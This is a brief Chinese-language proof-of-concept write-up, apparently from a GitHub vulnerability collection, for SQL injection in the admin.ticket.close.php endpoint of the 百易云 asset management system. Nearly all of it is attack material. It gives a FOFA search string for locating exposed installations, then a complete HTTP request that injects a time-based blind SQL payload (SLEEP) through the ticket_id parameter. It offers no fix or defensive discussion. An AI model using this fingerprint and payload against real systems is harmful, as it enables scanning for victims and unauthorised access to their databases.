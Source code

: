 # 百易云资产管理系统admin.ticket.close.php存在SQL注入漏洞

百易云资产管理系统在admin.ticket.close.php接口下存在sql注入漏洞

## fofa

```javascript
body="不要着急，点此"
```

## poc

```javascript
GET /wuser/admin.ticket.close.php?ticket_id=1%20AND%20(SELECT%206941%20FROM%20(SELECT(SLEEP(2)))OKTO) HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:50.0)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close


```
